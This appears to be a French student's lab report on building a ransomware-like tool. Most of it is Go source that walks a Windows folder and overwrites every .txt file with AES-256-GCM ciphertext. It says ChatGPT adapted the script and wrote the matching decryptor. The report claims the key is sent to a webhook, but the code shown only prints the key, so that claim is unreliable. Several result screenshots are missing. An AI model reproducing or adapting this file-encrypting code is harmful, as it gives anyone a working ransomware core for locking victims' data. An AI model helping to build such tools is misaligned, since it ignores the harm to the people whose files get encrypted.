

# TP 3
1. Pour le server et le Webhok j'ai utilisé ceux des TP précédents
2. pour le script j'ai piqué [celui ci](https://gist.github.com/donvito/efb2c643b724cf6ff453da84985281f8)
\
avec ChatGPT je l'ai modifié pour qu'il chiffre "C:\Users\Fsaint\Desktop\test\mdp.txt" en particulier et qu'il envoie la clé de déchiffrement sur mon WebHook
\
Le script final : 
```
package main

import (
	"crypto/aes"
	"crypto/cipher"
	"crypto/rand"
	"encoding/hex"
	"fmt"
	"io"
	"io/ioutil"
	"os"
	"path/filepath"
)

func main() {
	// Générer une clé aléatoire pour AES-256
	bytes := make([]byte, 32) // 32 bytes = 256 bits
	if _, err := rand.Read(bytes); err != nil {
		panic(err.Error())
	}

	key := hex.EncodeToString(bytes) // Encoder la clé en string pour la garder secrète
	fmt.Printf("Clé pour chiffrer/déchiffrer : %s\n", key)

	// Parcourir les fichiers txt dans le dossier spécifié
	directory := "C:\\Users\\fsaint\\Desktop\\test" // Remplace par le chemin de ton dossier
	err := filepath.Walk(directory, func(path string, info os.FileInfo, err error) error {
		if err != nil {
			return err
		}
		// Vérifier si le fichier est un fichier .txt
		if !info.IsDir() && filepath.Ext(path) == ".txt" {
			fmt.Printf("Chiffrement du fichier : %s\n", path)

			// Lire le contenu du fichier
			content, err := ioutil.ReadFile(path)
			if err != nil {
				return err
			}

			// Chiffrer le contenu du fichier
			encrypted := encrypt(string(content), key)

			// Remplacer le contenu du fichier par le texte chiffré
			err = ioutil.WriteFile(path, []byte(encrypted), 0644)
			if err != nil {
				return err
			}
			fmt.Printf("Fichier chiffré et sauvegardé : %s\n", path)
		}
		return nil
	})

	if err != nil {
		fmt.Println("Erreur lors de la lecture du dossier:", err)
	}
}

func encrypt(stringToEncrypt string, keyString string) (encryptedString string) {
	// Décoder la clé en bytes
	key, _ := hex.DecodeString(keyString)
	plaintext := []byte(stringToEncrypt)

	// Créer un nouveau bloc de chiffrement avec la clé
	block, err := aes.NewCipher(key)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nouveau GCM
	aesGCM, err := cipher.NewGCM(block)
	if err != nil {
		panic(err.Error())
	}

	// Créer un nonce. Le nonce doit être obtenu depuis GCM
	nonce := make([]byte, aesGCM.NonceSize())
	if _, err = io.ReadFull(rand.Reader, nonce); err != nil {
		panic(err.Error())
	}

	// Chiffrer les données en utilisant aesGCM.Seal
	// Ajouter le nonce au début des données chiffrées
	ciphertext := aesGCM.Seal(nonce, nonce, plaintext, nil)
	return fmt.Sprintf("%x", ciphertext)
}
```
3. je l'ai rendu executable puis executé sur ma vm 
\
Fichier original : 

Fichier chiffré :

resultat sur le server

4. decrypt tool fait entièrement par ChatGPT a partir du encrypt tool
donc quand je l'execute il demande la clé

apres que la clé soit rentrée le fichier texte retrouve les données d'origine
